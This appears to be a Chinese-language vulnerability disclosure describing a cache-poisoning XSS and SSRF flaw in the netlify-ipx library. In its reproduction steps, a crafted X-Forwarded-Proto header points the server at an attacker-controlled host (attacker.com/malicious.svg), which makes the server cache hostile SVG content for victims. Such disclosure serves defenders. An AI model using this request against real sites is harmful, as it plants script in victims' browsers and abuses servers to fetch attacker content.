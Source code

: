 
我們意識到
- 可以通過 `x-forwarded-proto` header 送一個尾巴帶有完整 URL header
- 這將覆蓋 server 試圖到達的 URL
- 因為易受攻擊的元件是為圖片優化而構建的，它具有強大的緩存功能，可以根據你通過實際 URL 的 endpoint 來 cache 圖

有可能
1. 用攻擊者控制的主機和惡意文件加 `x-forwarded-proto` header，然後
2. 複製你發送 HTTP request 的 URL
3. 將完整的 URL 發送到被 cache 的受害者，從而在打開後觸發 XSS paylaod

報告全文如下：  

----------------

## 3. 通過對 `x-forwarded-proto` header 的不當處理和可濫用的 cache 機制，在 `netlify-ipx` 上進行全面的 Cross-Site Scripting and Server-Side Request Forgery

`netlify-ipx` library 使用 `/_ipx/` 路由載入本地資源進行圖片優化
- 在建立使用者請求資源後 server 發送 HTTP request 的 URL 時，有段程式碼通過 `x-forwarded-proto` header 接受輸入
- 並允許攻擊者完全覆蓋 HTTP request 被發送到的 URL
- 有可能通過這個 header 送一個完全由攻擊者控制的 URL
- **當與服務器 cache 功能配對時**，就會在攻擊者決定用作 cache endpoint 的 `/_ipx/` 路由下的任何 URL 上創建一個存儲的 cross-site scripting payload 的 index
  - (如: `/_ipx/example.svg`)


### 重現的步驟
1. 向 `/_ipx/` endpoint 下的任何 endpoint 發送以下 HTTP request，其中`attacker.com`是你控制的網路服務器的主機，`malicious.svg`是一個帶有XSS有效載荷的SVG文件：
    ```
    GET /_ipx/example.svg
    Host: example.com
    X-Forwarded-Proto: http://attacker.com/malicious.svg?
    ```
2. 觀察一下，server 將代理 HTTP request 到攻擊者控制的 URL，並返回惡意的 SVG 文件
3. 複製你發送 HTTP request 的完整 URL，在不發送任何額外頭信息的情況下打開它，觀察該 endpoint 已經被攻擊者控制的主機的 HTTP response 給 cache 了，並將返回惡意的內容


### Impact
在所有運行 `netlify-ipx` 的網站上出現完全的 `cross-site scripting` and `server-side request forgery`
- 攻擊者可以創建一個存儲的 `cross-site scripting` 的 endpoint
- 當受害者訪問該 endpoint 時可以執行任意的 JavaScript 和 HTML

